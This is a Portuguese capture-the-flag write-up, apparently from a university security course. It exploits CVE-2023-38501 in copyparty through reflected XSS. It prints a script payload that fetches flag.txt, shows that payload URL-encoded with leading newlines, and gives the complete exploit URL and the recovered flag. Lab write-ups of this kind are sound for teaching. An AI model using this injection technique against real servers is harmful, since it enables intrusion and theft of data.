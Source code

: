# CTF XSS

Este CTF foi realizado no servidor [http://ctf-fsi.fe.up.pt:5007](http://ctf-fsi.fe.up.pt:4005/).

Após verificarmos que o ficheiro flag.txt não fornece acesso direto, mesmo estando descaradamente exposto no server, exploramos os outros ficheiros listados.

Deparámo-nos com o ficheiro SECURITY.md:

![image4](images_CTF7.md/image4.png)

Acedemos ao repositório GitHub ( [https://github.com/9001/copyparty/security/advisories/GHSA-f54q-j679-p9hh](https://github.com/9001/copyparty/security/advisories/GHSA-f54q-j679-p9hh) ) onde uma vulnerabilidade copyparty estava descrita (CVE-2023-38501):

![image1](images_CTF7.md/image1.png)

Desta forma, descobrimos que, para acedermos à flag via um ataque de XSS, teríamos que explorar esta vulnerabilidade, que permite que um script malicioso seja injetado no URL.

Usando este exemplo:

![image7](images_CTF7.md/image7.png)

Sabemos então que antes de pôr o nosso script temos de pôr o seguinte url:

http://ctf-fsi.fe.up.pt:5007/?k304=y

Vamos, então, construir o script malicioso:

\<script\>  
fetch('/flag.txt')  
.then(response \=\>response.text())  
\</script\>

(Para saber que era preciso deixar duas linhas em branco fomos testando por tentativa e erro, testamos primeiro sem nenhuma, depois com uma e com duas já funcionou, cada nova linha é codificada com %0A . Isto depende de quantos espaços é que o servidor precisa para a separação entre o url e o código de javascript.)

Convertemos em URL:

![image6](images_CTF7.md/image6.png)

(no site: [https://www.urlencoder.org/](https://www.urlencoder.org/) )

Observamos no resultado:

%0A%0A%3Cscript%3E%0Afetch%28%27%2Fflag.txt%27%29%0A.then%28response%20%3D%3Eresponse.text%28%29%29%0A%3C%2Fscript%3E

Juntamos com o ínicio:

[http://ctf-fsi.fe.up.pt:5007/?k304=y%0A%0A%3Cscript%3E%0Afetch%28%27%2Fflag.txt%27%29%0A.then%28response%20%3D%3Eresponse.text%28%29%29%0A%3C%2Fscript%3E](http://ctf-fsi.fe.up.pt:5007/?k304=y%0A%0A%3Cscript%3E%0Afetch%28%27%2Fflag.txt%27%29%0A.then%28response%20%3D%3Eresponse.text%28%29%29%0A%3C%2Fscript%3E)

![image3](images_CTF7.md/image3.png)

Vimos parar a esta página.

Abrimos as ferramentas de desenvolvedor com f12 e vamos à tab de network.

![image5](images_CTF7.md/image5.png)

Damos refresh à página:

![image2](images_CTF7.md/image2.png)

Selecionamos superblyHiddenFlagDI79….:  

![image8](images_CTF7.md/image8.png)

E colamos a resposta:

flag{youGotMeReallyGood}

Concluindo assim o CTF.
